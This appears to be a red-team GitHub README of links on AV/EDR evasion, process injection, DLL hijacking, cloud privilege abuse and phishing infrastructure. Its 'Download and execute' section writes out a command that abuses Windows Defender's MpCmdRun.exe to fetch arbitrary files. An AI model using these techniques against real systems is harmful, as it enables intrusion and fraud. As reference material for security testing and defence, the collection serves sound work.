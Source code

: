 # RedBlueNotes

![red](https://user-images.githubusercontent.com/9626439/99510946-ef79e900-2987-11eb-9aa8-1443670a8bb3.jpg)

Personal notes and collection of useful links. 

Collection in early stage - more details will be added (URL/Description).

## Approach
* [assume breach?](https://twitter.com/reybango/status/1308608385298898944)

## Lab
* [designing-the-adversary-simulation-lab/](https://www.mdsec.co.uk/2020/04/designing-the-adversary-simulation-lab/)

## .NET ETW 
* https://www.mdsec.co.uk/2020/03/hiding-your-net-etw/ (bypass by _xpn_)
* https://github.com/zacbrown/PowerKrabsEtw
* https://github.com/zacbrown/hiddentreasure-etw-demo

## Windows syscalls
* https://outflank.nl/blog/2019/06/19/red-team-tactics-combining-direct-system-calls-and-srdi-to-bypass-av-edr/
* https://github.com/jthuraisamy/SysWhispers
* https://jhalon.github.io/utilizing-syscalls-in-csharp-1/
* https://jhalon.github.io/utilizing-syscalls-in-csharp-2/
* https://www.solomonsklash.io/syscalls-for-shellcode-injection.html
* https://github.com/frkngksl/Celeborn
* https://github.com/m0rv4i/Syscalls-Extractor

## (API) (un)hook
* [Defeat Bitdefender total security using windows API unhooking to perform process injection](https://shells.systems/defeat-bitdefender-total-security-using-windows-api-unhooking-to-perform-process-injection/)
* [Part 1: Fs Minifilter Hooking](https://aviadshamriz.medium.com/part-1-fs-minifilter-hooking-7e743b042a9d)
* [Windows API Hooking](https://rcvalle.com/blog/2020/09/16/rust-lang-exploit-mitigations/)

## EDR telemetry
* [TelemetrySourcerer](https://github.com/jthuraisamy/TelemetrySourcerer)

## Build offensive tools 
* [OffensivePipeline](https://github.com/Aetsu/OffensivePipeline)

## Infrastrcuture
* [Multi-Stage Offensive Operations with Mythic](https://blog.kyleavery.com/posts/multi-stage-mythic/)

## Evasion
* [Blue team - EDR evolution](https://www.optiv.com/insights/source-zero/blog/endpoint-detection-and-response-how-hackers-have-evolved)
* [Nice webinar - understanding-modern-edr-tools](https://www.netspi.com/webinars/understanding-modern-edr-tools-thank-you/)
* [Lets Create An EDR… And Bypass It! Part 1](https://ethicalchaos.dev/2020/05/27/lets-create-an-edr-and-bypass-it-part-1/)
* [Lets Create An EDR… And Bypass It! Part 2](https://ethicalchaos.dev/2020/06/14/lets-create-an-edr-and-bypass-it-part-2/)
* [A Guide to Reversing and Evading EDRs: Part 1 Introduction](http://jackson-t.ca/edr-reversing-evading-01.html)
* [A Guide to Reversing and Evading EDRs: Part 2 Sensor reconnaisssance](http://jackson-t.ca/edr-reversing-evading-02.html)
* [A Guide to Reversing and Evading EDRs: Part 3 Diverting EDR telemetry to private infrastracture](http://jackson-t.ca/edr-reversing-evading-03.html)
* [Alaris](https://github.com/cribdragg3r/Alaris)
* [ScareCrow](https://github.com/optiv/ScareCrow)
* [Self deleting exe](https://www.catch22.net/tuts/win32/self-deleting-executables#)
* [Defeating Antivirus Real-time Protection From The Inside](https://breakdev.org/defeating-antivirus-real-time-protection-from-the-inside/)
* [Duping AV with handles](https://skelsec.medium.com/duping-av-with-handles-537ef985eb03)
* [Adventures in Dynamic Evasion](https://posts.specterops.io/adventures-in-dynamic-evasion-1fe0bac57aa)
  * [Companion PoC for the "Adventures in Dynamic Evasion" blog post](https://github.com/matterpreter/SHAPESHIFTER) 
* [Click your shortcut and… you got pwned.](https://redteamer.tips/click-your-shortcut-and-you-got-pwned/) 
* [Evade EDR with Shellcode Injection and gain persistence using Registry Run Keys](https://infosecwriteups.com/evade-avs-edr-with-shellcode-injection-159dde4dba1a)
* [Understanding and bypassing AMSI](https://x64sec.sh/understanding-and-bypassing-amsi/)
* [Masking Malicious Memory Artifacts – Part III: Bypassing Defensive Scanners](https://www.forrest-orr.net/post/masking-malicious-memory-artifacts-part-iii-bypassing-defensive-scanners)
* [smaller-c-payloads-on-windows](https://www.solomonsklash.io/smaller-c-payloads-on-windows.html)
* [in-memory-shellcode-decoding-to-evade-avs](https://shells.systems/in-memory-shellcode-decoding-to-evade-avs/)
* [MDSec Bypassing Image Load Kernel Callbacks](https://www.mdsec.co.uk/2021/06/bypassing-image-load-kernel-callbacks/)
* [EDR bypass via signed driver EDRSandblast](https://github.com/wavestone-cdt/EDRSandblast)
* [Bypass user-mode hooks](https://github.com/hlldz/RefleXXion)

## Cloud
* [XPN - Azure AD Connect for Red Teamers](https://blog.xpnsec.com/azuread-connect-for-redteam/)
* [Making Clouds Rain :: Remote Code Execution in Microsoft Office 365](https://srcincite.io/blog/2021/01/12/making-clouds-rain-rce-in-office-365.html)
* [List of Azure CDN IP Addresses](https://github.com/Gelob/azure-cdn-ips)
* [AWS IAM explained for Red and Blue teams](https://infosecwriteups.com/aws-iam-explained-for-red-and-blue-teams-2dda8b20fbf7)
* [Exploiting AWS IAM permissions for total cloud compromise: a real world example (part 1/2)](https://infosecwriteups.com/exploiting-fine-grained-aws-iam-permissions-for-total-cloud-compromise-a-real-world-example-part-5a2f3de4be08)
* [Exploiting fine-grained AWS IAM permissions for total cloud compromise: a real world example (part 2/2)](https://infosecwriteups.com/exploiting-aws-iam-permissions-for-total-cloud-compromise-a-real-world-example-part-2-2-f27e4b57454e)

## Lateral movement
* [lateral-movement-using-dcom-objects](https://www.scorpiones.io/articles/lateral-movement-using-dcom-objects)

# DLLs
* https://itm4n.github.io/windows-dll-hijacking-clarified/
* https://github.com/monoxgas/Koppeling (DLL hijacking)
* https://redteaming.co.uk/2020/07/12/dll-proxy-loading-your-favorite-c-implant/ (DLL proxy loading)
* [Full DLL Unhooking with C++](https://www.ired.team/offensive-security/defense-evasion/how-to-unhook-a-dll-using-c++)

## Injections
* https://sevrosecurity.com/2020/04/08/process-injection-part-1-createremotethread/
* https://sevrosecurity.com/2020/04/13/process-injection-part-2-queueuserapc/

## Situational Awareness
* https://ired.team/offensive-security/enumeration-and-discovery/windows-event-ids-for-situational-awareness

## Phishing
* [Post exploitation creds](https://medium.com/@shantanukhande/post-exploitation-creds-5a8de8676792)
* [Adversary phishing characteristics](https://blog.sannemaasakkers.com/adversary-phishing-characteristics.html)
* [Check the phishing server / landing page response](https://httpstatus.io/)
* [Security check of your URL ](https://sitecheck.sucuri.net/)
* [Check your phishing e-mail quality](https://www.mail-tester.com/)
* [Recipe for a successful phishing campaign (part 1/2)](https://medium.com/bugbountywriteup/recipe-for-a-successful-phishing-campaign-part-1-2-dc23d927ec55)
  * setup SPF, DKIM, PTR, MX and general approach
* [Recipe for a successful phishing campaign (part 2/2)](https://medium.com/bugbountywriteup/recipe-for-a-successful-phishing-campaign-part-2-2-68552806dcba)
  * setup DNS, gophishg, general tips for better campaign
* [Building resilient phishing campaign infrastructure](https://godlikesecurity.com/index.php/tag/red-team/)
* [email spoofing](https://github.com/chenjj/espoofer)
* [docker,terradorm,ansible automation](https://github.com/ralphte/build_a_phish)
* [Internal phishing](https://github.com/Yaxser/SharpPhish)
* [Password protected Excel phishing](https://s3cur3th1ssh1t.github.io/Phish-password-protected-Excel-files/)
* [Gophish notification](https://github.com/dunderhay/gophish-notifications)
* [Gophish notification via webhooks](https://github.com/t94j0/gophish-notifier)

### Phishing platforms
* [sendgrid](http://sendgrid.com/)
  * useful service but honestly, You need Pro pain plan to be lucky not to be on a spamlist 
* [mailgun](https://app.mailgun.com/)
  * haven't had any problem
* [Amazon AWS SES](https://aws.amazon.com/ses/)

## Download and execute

* [Download via Defender](https://twitter.com/mohammadaskar2/status/1301263551638761477)
![Defender download](https://pbs.twimg.com/media/Eg8ESSWWAAACTGo?format=jpg&name=large)
* (You can use C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2008.9-0\MpCmdRun.exe -url <url> -path <local-path> to download your file using Windows defender itself.)
  
## Reports and management
* [Manage Red Team domain](https://posts.specterops.io/being-a-good-domain-shepherd-part-2-5e8597c3fe63)
* [Domain Shepherd](https://github.com/GhostManager/Shepherd)

## SSH 
* If you are always looking through your ssh conf files for a specific host entry, this simple bash function might be just what you need. 

```
function getssh() {
  awk "/$1/,/^$/" < ~/.ssh/include/*
}
```

![SSH configs](https://pbs.twimg.com/media/EgW_CXzXsAEsh0r?format=png&name=small)

## Tools
* [Weaponry](https://github.com/jeffjbowie/Weaponry)
  * A collection of offensive code used for red team engagements.                                    
* [Mr-Un1k0d3r awesome repo](https://github.com/Mr-Un1k0d3r)  
* [PowerShellArmoury](https://github.com/cfalta/PowerShellArmoury) 
* [RedTeamTools](https://github.com/lengjibo/RedTeamTools)     
* [inceptor](https://github.com/klezVirus/inceptor)   
* [mgeeky awesome repo](https://github.com/mgeeky/Penetration-Testing-Tools/tree/master/red-teaming)                                    

## HW
* [Making the Perfect Red Team Dropbox (Part 1)](https://sensepost.com/blog/2020/making-the-perfect-red-team-dropbox-part-1/)
* [Making the Perfect Red Team Dropbox (Part 2)](https://sensepost.com/blog/2020/making-the-perfect-red-team-dropbox-part-2/)
